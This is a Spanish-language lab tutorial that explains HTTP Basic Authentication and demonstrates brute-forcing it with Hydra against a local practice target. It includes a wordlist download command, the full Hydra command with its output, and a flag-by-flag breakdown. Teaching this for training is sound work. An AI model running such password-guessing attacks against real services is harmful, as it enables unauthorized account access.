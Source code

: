 # Basic HTTP Authentication

Las aplicaciones web suelen emplear mecanismos de autenticación para proteger datos sensibles y funcionalidades. Basic HTTP Authentication, o simplemente `Basic Auth`, es un método rudimentario pero común para asegurar recursos en la web. Aunque es fácil de implementar, sus vulnerabilidades inherentes lo convierten en un objetivo frecuente para ataques de fuerza bruta.

En esencia, Basic Auth es un protocolo de desafío-respuesta en el que un servidor web exige credenciales de usuario antes de otorgar acceso a recursos protegidos. El proceso comienza cuando un usuario intenta acceder a un área restringida. El servidor responde con un estado `401 Unauthorized` y un encabezado `WWW-Authenticate` que solicita al navegador del usuario presentar un cuadro de diálogo de inicio de sesión.

Una vez que el usuario proporciona su nombre de usuario y contraseña, el navegador los concatena en una sola cadena, separada por dos puntos. Esta cadena se codifica en Base64 y se incluye en el encabezado `Authorization` de las solicitudes subsiguientes, siguiendo el formato `Basic <encoded_credentials>`. El servidor decodifica las credenciales, las verifica contra su base de datos y concede o deniega el acceso según corresponda.

Por ejemplo, los encabezados para Basic Auth en una solicitud HTTP GET se verían así:

```r
GET /protected_resource HTTP/1.1
Host: www.example.com
Authorization: Basic YWxpY2U6c2VjcmV0MTIz
```

## Exploiting Basic Auth with Hydra

**Para seguir este ejemplo, inicia el sistema objetivo desde la sección de preguntas al final de la página.**

Usaremos el servicio `http-get` de Hydra para realizar fuerza bruta en un objetivo con Basic Auth.

En este escenario, la instancia objetivo utiliza Basic HTTP Authentication. Ya sabemos que el nombre de usuario es `basic-auth-user`. Dado que conocemos el nombre de usuario, podemos simplificar el comando de Hydra y centrarnos únicamente en realizar fuerza bruta sobre la contraseña. Este es el comando que utilizaremos:

```r
# Descargar la wordlist si es necesario
curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/2023-200_most_used_passwords.txt
# Comando de Hydra
hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt 127.0.0.1 http-get / -s 81

...
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-09 16:04:31
[DATA] max 16 tasks per 1 server, overall 16 tasks, 200 login tries (l:1/p:200), ~13 tries per task
[DATA] attacking http-get://127.0.0.1:81/
[81][http-get] host: 127.0.0.1   login: basic-auth-user   password: ...
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-09 16:04:32
```

Desglosemos el comando:

- `-l basic-auth-user`: Especifica que el nombre de usuario para el intento de inicio de sesión es `basic-auth-user`.
- `-P 2023-200_most_used_passwords.txt`: Indica que Hydra debe usar la lista de contraseñas contenida en el archivo `2023-200_most_used_passwords.txt` para el ataque de fuerza bruta.
- `127.0.0.1`: Es la dirección IP del objetivo, en este caso, la máquina local (localhost).
- `http-get /`: Instruye a Hydra que el servicio objetivo es un servidor HTTP y que el ataque debe realizarse utilizando solicitudes HTTP GET a la ruta raíz (`/`).
- `-s 81`: Sobrescribe el puerto predeterminado del servicio HTTP y lo establece en 81.

Al ejecutar este comando, Hydra intentará sistemáticamente cada contraseña del archivo `2023-200_most_used_passwords.txt` contra el recurso especificado. Finalmente, devolverá la contraseña correcta para `basic-auth-user`, que podrás usar para iniciar sesión en el sitio web y recuperar la flag.